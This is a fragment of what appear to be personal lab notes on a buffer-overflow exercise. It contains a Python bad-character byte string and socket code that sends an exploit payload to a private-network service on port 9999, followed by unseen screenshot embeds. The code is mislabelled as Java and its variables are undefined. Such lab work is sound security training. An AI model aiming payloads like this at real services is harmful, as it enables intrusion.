 ```java
b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.153.159",9999))
s.send(payload)
s.close()
```
![[Pasted image 20231204140012.png]]![[Pasted image 20231204140024.png]]
![[Pasted image 20231204142903.png]]
![[Pasted image 20231204143109.png]]

![[Pasted image 20231204143817.png]]
![[Pasted image 20231204143835.png]]
![[Pasted image 20231204162540.png]]
![[Pasted image 20231204162726.png]]
![[Pasted image 20231204164549.png]]
![[Pasted image 20231204165713.png]]
![[Pasted image 20231204170258.png]]![[Pasted image 20231204170355.png]]

![[Pasted image 20231204170657.png]]
![[Pasted image 20231204170816.png]]
